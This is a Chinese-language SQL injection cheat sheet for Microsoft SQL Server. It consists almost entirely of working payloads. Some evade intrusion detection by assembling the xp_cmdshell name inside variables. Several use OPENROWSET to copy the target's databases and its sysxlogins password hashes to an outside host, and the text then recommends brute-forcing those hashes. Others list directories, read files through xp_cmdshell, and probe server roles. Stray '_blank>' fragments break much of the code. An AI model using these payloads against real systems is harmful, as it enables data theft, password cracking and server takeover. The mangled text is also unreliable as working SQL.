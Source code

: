 	[获得数据表字段名][将字段值更新为字段名，再想法读出这个字段的值就可得到字段名]
	update 表名 set 字段=(select top 1 col_blank>_name(object_blank>_id(要查询的数据表名),字段列如:1) [ where 条件]
	
	绕过IDS的检测[使用变量]
	;declare @a sysname set @a=xp_blank>_+cmdshell exec @a dir c:\
	;declare @a sysname set @a=xp+_blank>_cm’+’dshell exec @a dir c:\
	
	1、 开启远程_blank>数据库
	基本语法
	select * from OPENROWSET(SQLOLEDB, server=servername;uid=sa;pwd=123, select * from table1 )
	参数: (1) OLEDB Provider name
	2、 其中连接字符串参数可以是任何端口用来连接,比如
	select * from OPENROWSET(SQLOLEDB, uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;, select * from table
	3.复制目标主机的整个_blank>数据库insert所有远程表到本地表。
	
	基本语法：
	insert into OPENROWSET(SQLOLEDB, server=servername;uid=sa;pwd=123, select * from table1) select * from table2
	这行语句将目标主机上table2表中的所有数据复制到远程_blank>数据库中的table1表中。实际运用中适当修改连接字符串的IP地址和端口，指向需要的地方，比如：
	insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from table1) select * from table2
	insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _blank>_sysdatabases)
	select * from master.dbo.sysdatabases
	insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _blank>_sysobjects)
	select * from user_blank>_database.dbo.sysobjects
	insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _blank>_syscolumns)
	select * from user_blank>_database.dbo.syscolumns
	复制_blank>数据库：
	insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from table1) select * from database..table1
	insert into OPENROWSET(SQLOLEDB,uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from table2) select * from database..table2
	
	复制哈西表（HASH）登录_blank>密码的hash存储于sysxlogins中。方法如下：
	insert into OPENROWSET(SQLOLEDB, uid=sa;pwd=123;Network=DBMSSOCN;Address=192.168.0.1,1433;,select * from _blank>_sysxlogins) select * from database.dbo.sysxlogins
	得到hash之后，就可以进行暴力破解。
	
	遍历目录的方法： 先创建一个临时表：temp
	;create table temp(id nvarchar(255),num1 nvarchar(255),num2 nvarchar(255),num3 nvarchar(255));--
	;insert temp exec master.dbo.xp_blank>_availablemedia;-- 获得当前所有驱动器
	;insert into temp(id) exec master.dbo.xp_blank>_subdirs c:\;-- 获得子目录列表
	;insert into temp(id,num1) exec master.dbo.xp_blank>_dirtree c:\;-- 获得所有子目录的目录树结构,并寸入temp表中
	;insert into temp(id) exec master.dbo.xp_blank>_cmdshell type c:\web\index.asp;-- 查看某个文件的内容
	;insert into temp(id) exec master.dbo.xp_blank>_cmdshell dir c:\;--
	;insert into temp(id) exec master.dbo.xp_blank>_cmdshell dir c:\ *.asp /s/a;--
	;insert into temp(id) exec master.dbo.xp_blank>_cmdshell cscript C:\Inetpub\AdminScripts\adsutil.vbs enum w3svc
	;insert into temp(id,num1) exec master.dbo.xp_blank>_dirtree c:\;-- （xp_blank>_dirtree适用权限PUBLIC）
	写入表：
	语句1：and 1=(Select IS_blank>_SRVROLEMEMBER(sysadmin));--
	语句2：and 1=(Select IS_blank>_SRVROLEMEMBER(serveradmin));--
	语句3：and 1=(Select IS_blank>_SRVROLEMEMBER(setupadmin));--
	语句4：and 1=(Select IS_blank>_SRVROLEMEMBER(securityadmin));--
	语句5：and 1=(Select IS_blank>_SRVROLEMEMBER(securityadmin));--
	语句6：and 1=(Select IS_blank>_SRVROLEMEMBER(diskadmin));--
	语句7：and 1=(Select IS_blank>_SRVROLEMEMBER(bulkadmin));--
	语句8：and 1=(Select IS_blank>_SRVROLEMEMBER(bulkadmin));--
	语句9：and 1=(Select IS_blank>_MEMBER(db_blank>_owner));--
	